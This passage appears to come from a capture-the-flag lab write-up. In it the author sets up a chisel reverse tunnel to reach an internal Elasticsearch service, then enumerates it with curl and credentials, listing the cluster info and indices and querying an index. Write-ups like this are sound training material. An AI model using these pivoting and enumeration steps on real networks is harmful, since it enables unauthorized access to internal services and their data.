 And we got a connection to the local server.

```shell
labadmin@labmachine:~/napper$ ./chisel_1.9.1_linux_amd64 server -p 8100 --reverse
2024/05/16 06:49:27 server: Reverse tunnelling enabled
2024/05/16 06:49:27 server: Fingerprint hSY4fSNjYnAlWUtOvtf5JOMR9ycohW+VYvcHsKQWE/0=
2024/05/16 06:49:27 server: Listening on http://0.0.0.0:8100
2024/05/16 06:52:43 server: session#1: tun: proxy#R:9200=>9200: Listening
```

Now when we have connection and we start enumerate Elasticsearch service. This is a good reference [https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch).

The connection and authentication work fine.

```shell
labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200 -u 'user:DumpPassword$Here'
{
  "name" : "NAPPER",
  "cluster_name" : "backupuser",
  "cluster_uuid" : "tWUZG4e8QpWIwT8HmKcBiw",
  "version" : {
    "number" : "8.8.0",
    "build_flavor" : "default",
    "build_type" : "zip",
    "build_hash" : "c01029875a091076ed42cdb3a41c10b1a9a5a20f",
    "build_date" : "2023-05-23T17:16:07.179039820Z",
    "build_snapshot" : false,
    "lucene_version" : "9.6.0",
    "minimum_wire_compatibility_version" : "7.17.0",
    "minimum_index_compatibility_version" : "7.0.0"
  },
  "tagline" : "You Know, for Search"
}
```

Then, let us try to retrieve all the indices stored in the Elasticsearch database.

```shell
labadmin@labmachine:~/napper$  curl -k https://127.0.0.1:9200/_cat/indices -u 'user:DumpPassword$Here'
yellow open seed       rN4XnMTYRIiLr4GqsI3CcA 1 1 1 0 3.3kb 3.3kb
yellow open user-00001 looODTOXRjiSHEqnMVx6hw 1 1 1 0 5.3kb 5.3kb
```

There are two indices in the Elasticsearch database, `seed` and `user-00001`.

```shell
labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200/seed/_search -u 'user:DumpPassword$Here' | python3 -m json.tool
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   237  100   237    0     0    348      0 --:--:-- --:--:-- --:--:--   348
{
    "took": 1,
    "timed_out": false,
    "_shards": {
        "total": 1,
        "successful": 1,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": {
            "value": 1,
            "relation": "eq"
        },
        "max_score": 1.0,
```
